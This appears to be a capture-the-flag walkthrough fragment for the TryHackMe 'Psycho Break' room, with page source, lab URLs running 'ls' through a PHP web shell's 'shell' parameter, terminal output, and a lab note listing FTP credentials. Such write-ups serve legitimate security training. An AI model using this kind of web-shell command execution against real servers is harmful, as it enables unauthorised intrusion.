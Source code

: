 ```html
You Got The Keeper Key !!!

Here is your key : 48ee41458eb0b43bf82b986cecf3af01

<!-- There is something called "shell" on current page maybe that'll help you to get out of here !!!-->



<!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->

http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls

http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls%20..

680e89809965ec41e64dc7e447f175ab be8bc662d1e36575a52da40beba38275 index.php 

http://10.10.172.137/abandonedRoom/680e89809965ec41e64dc7e447f175ab/

kali@kali:~/CTFs/tryhackme/Psycho Break$ cat you_made_it.txt 

You made it. Escaping from Laura is not easy, good job ....

kali@kali:~/CTFs/tryhackme/Psycho Break$ unzip helpme.zip 
Archive:  helpme.zip
  inflating: helpme.txt              
  inflating: Table.jpg               
kali@kali:~/CTFs/tryhackme/Psycho Break$ cat helpme.txt 

From Joseph,

Who ever sees this message "HELP Me". Ruvik locked me up in this cell. Get the key on the table and unlock this cell. I'll tell you what happened when I am out of 
this cell.

SHOWME

kali@kali:~/CTFs/tryhackme/Psycho Break$ cat thankyou.txt 

From joseph,

Thank you so much for freeing me out of this cell. Ruvik is nor good, he told me that his going to kill sebastian and next would be me. You got to help 
Sebastian ... I think you might find Sebastian at the Victoriano Estate. This note I managed to grab from Ruvik might help you get inn to the Victoriano Estate. 
But for some reason there is my name listed on the note which I don't have a clue.

           --------------------------------------------
        //                                              \\
        ||      (NOTE) FTP Details                      ||
        ||      ==================                      ||
        ||                                              ||
        ||      USER : joseph                           ||
        ||      PASSWORD : intotheterror445             ||
        ||                                              ||
        \\                                              //
           --------------------------------------------


Good luck, Be carefull !!!

kali@kali:~/CTFs/tryhackme/Psycho Break$ chmod +x program
```